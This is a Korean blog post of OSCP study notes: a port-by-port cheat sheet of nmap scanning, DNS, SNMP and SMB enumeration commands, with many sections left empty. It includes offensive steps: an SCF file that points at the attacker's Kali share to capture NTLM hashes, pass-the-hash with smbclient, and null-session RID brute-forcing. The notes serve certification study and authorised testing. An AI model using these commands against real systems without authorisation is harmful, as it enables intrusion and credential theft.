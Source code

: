 ```yaml
---
layout: post
title: OSCPv2
subtitle: OSCPv2 포트별 정리
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - OSCP
sidebar:
---
```


# Port Scan
```shell
# basic
sudo nmap -sC -sV -Pn ip -oN ip

# all port 
sudo nmap -sC -sV -Pn -p- ip -oN ip_allport

# udp
sudo nmap -sC -sV -U -Pn ip -oN ip_udp

# nse scan
sudo nmap --script-updatedb
sudo nmap -sC -sV -Pn --script script -p port ip

# In Window
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("ip", $_)) "TCP port $_ is open"} 2>$null
```

# 21 FTP
```shell
# anonymous:anonymous & ftp:ftp
ftp anonymous@ip
```
# 22 SSH
```shell
# Version Vuln Scan
# 
```

# 25, 465, 587, 2525 SMTP
```shell
# user 확인
nc -nv <ip> 25



```

# 53 DNS
```shell
# IP 찾기
host <domain>

# A레코드 검색
host -t mx <domain>
nslookup mail.megacorptwo.com # in Window

# TXT레코드 검색
host -t txt <domain>
nslookup -type=TXT <domain> <DNS_IP> # in Window

# subdomain 검색 : /usr/share/seclists 
# 없을경우 sudo apt install seclists
for ip in $(cat list.txt); do host $ip.megacorpone.com; done
for ip in $(seq 200 254); do host 000.000.000.$ip; done | grep -v "not found"

# dnsrecon / options : std, brt
dnsrecon -d <domain> -t <options> -D <wordlist>
```

# 80, 443 HTTP

# 88 Kerberos

# 161 SNMP
| MIB                    |           |
| ---------------------- | --------- |
| 1.3.6.1.2.1.25.1.6.0   | 시스템 프로세스  |
| 1.3.6.1.2.1.25.4.2.1.2 | 프로그램 실행   |
| 1.3.6.1.2.1.25.4.2.1.4 | 프로세스 경로   |
| 1.3.6.1.2.1.25.2.3.1.4 | 보관 유닛     |
| 1.3.6.1.2.1.25.6.3.1.2 | 소프트웨어 이름  |
| 1.3.6.1.4.1.77.1.2.25  | 사용자 계정    |
| 1.3.6.1.2.1.6.13.1.3   | TCP 로컬 포트 |
```shell
# list 구성
echo "public\nprivate\nmanager" > community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips

# onesixtyone
onesixtyone -c community -i ips

# snmpwalk
snmpwalk -c public -v1 -t 10 <IP> <MIB_Num>

# External node find
snmpwalk -v2c -c public <RHOST> nsExtendObjects snmpwalk -v2c -c public <RHOST> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

# 389 LDAP

# 445 SMB
```shell
# 디스크 확인
smbclient //<ip>/<Folder 명>
net view \\<AD_domain> /all # in Window

# NTML hash 사용
smbclient \\\\192.168.50.212\\secrets -U <user> --pw-nt-hash <hash>

# 공유 폴더 확인
crackmapexec smb 10.129.157.36 -u '' -p '' --shares
crackmapexec smb 10.129.157.36 -u '' -p '' --users
crackmapexec smb 10.129.157.36 -u '' -p '' --rid-brute

# 재귀로 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider <폴더명> --regex .

# 파일 얻기
get file.ext

# writable 확인
## mount
mount -t cifs -o rw,username=guest,password= '//<ip>/<폴더명>' /mnt
## writable.sh
#!/bin/bash
list=$(find /mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
## scf attack
### hash.scf
[Shell] Command=2
IconFile=\\<kali_ip>\share\pwn.ico 
[Taskbar] 
Command=ToggleDesktop
```

# 1433 MSSQL

# 3306 MYSQL

# 3389 RDP

# 5985, 5986 WINRM

# Credencial

# Windows

# Linux

# Tunneling

# Git

# Python

# Jenkins

# Metasploit

